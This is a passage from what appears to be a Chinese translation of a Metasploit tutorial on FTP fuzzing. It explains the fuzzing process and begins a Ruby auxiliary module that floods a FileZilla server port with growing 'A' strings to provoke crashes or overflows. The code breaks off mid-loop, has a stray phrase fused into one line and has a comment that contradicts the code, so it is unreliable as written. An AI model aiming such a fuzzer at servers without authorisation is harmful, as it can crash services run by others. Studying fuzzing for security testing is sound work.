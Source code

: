 输出有几点需要注意。首先，FTP 服务器在攻击机器上启动。然后，它连接回 FTP 客户端。然后，它开始向客户机发送不同的响应命令。模糊化过程从 `NLST`命令开始。然后，它进入列表，依此类推。

这是 fuzzer 模块如何工作的一个小演示。在下一个配方中，我们将通过构建我们自己的模糊模块来更深入地研究协议模糊。

## 它是如何工作的。。。

模糊程序根据我们想要模糊的应用程序创建不同的测试用例。在我们的示例中，FTP 服务器可以通过发送随机数据包，然后分析其响应来进行模糊化。数据包可以通过网络模糊以下属性：

*   **数据包报头：**模糊器可以在报头中插入任意长度和值的随机数据包，并分析其响应。
*   **数据包校验和：**校验和值也可以在特定条件下使用模糊器进行操作。
*   **数据包大小：**也可以将任意长度的数据包发送到网络应用程序，以确定崩溃。

一旦报告了崩溃或溢出，fuzzer 可以返回其测试用例以提供溢出数据。

# 编写一个简单的 FileZilla FTP fuzzer

我们在前面的配方中分析了 fuzzer 模块的工作。让我们通过构建我们自己的小型 FTP fuzzer 向前迈进一步，该 fuzzer 可用于对付 FileZilla FTP 服务器。

## 怎么做。。。

构建 fuzzer 的基本模板与我们在开发辅助模块时讨论的模板类似。因此，我们的基本模板应如下所示：

```
require 'msf/core'
class Metasploit3 < Msf::Auxiliary
include Msf::Auxiliary::Scanner
def initialize
super(
'Name' => 'FileZilla Fuzzer',
'Version' => '$Revision: 1 $',
'Description' => 'Filezilla FTP fuzzer',
'Author' => 'Abhinav_singh',
'License' => MSF_LICENSE
)
register_options( [
Opt::RPORT(14147),
OptInt.new('STEPSIZE', [ false, "Increase string size each iteration with this number of chars",10]),
OptInt.new('DELAY', [ false, "Delay between connections",0.5]),
OptInt.new('STARTSIZE', [ false, "Fuzzing string startsize",10]),
OptInt.new('ENDSIZE', [ false, "Fuzzing string endsize",20000])
], self.class)
end

```

因此，我们导入了 MSF 库，创建了一个类，并定义了我们的选项。下一步是定义 fuzzer 的主体。

```
def run_host(ip)
udp_sock = Rex::Socket::Udp.create(
'Context' =>
{
'Msf' => framework,
'MsfExploit' => self,
}
)
startsize = datastore['STARTSIZE'] # fuzz data size to begin with
count = datastore['STEPSIZE'] # Set count increment
simple FileZilla FTP fuzzerwritingwhile count < 10000 # While the count is under 10000 run
evil = "A" * count # Set a number of "A"s equal to count
pkt = "\x00\x02" + "\x41" + "\x00" + evil + "\x00" # Define the payload
udp_sock.sendto(pkt, ip, datastore['RPORT']) # Send the packet
print_status("Sending: #{evil}")
resp = udp_sock.get(1) # Capture the response
count += 100 # Increase count by 10, and loop
```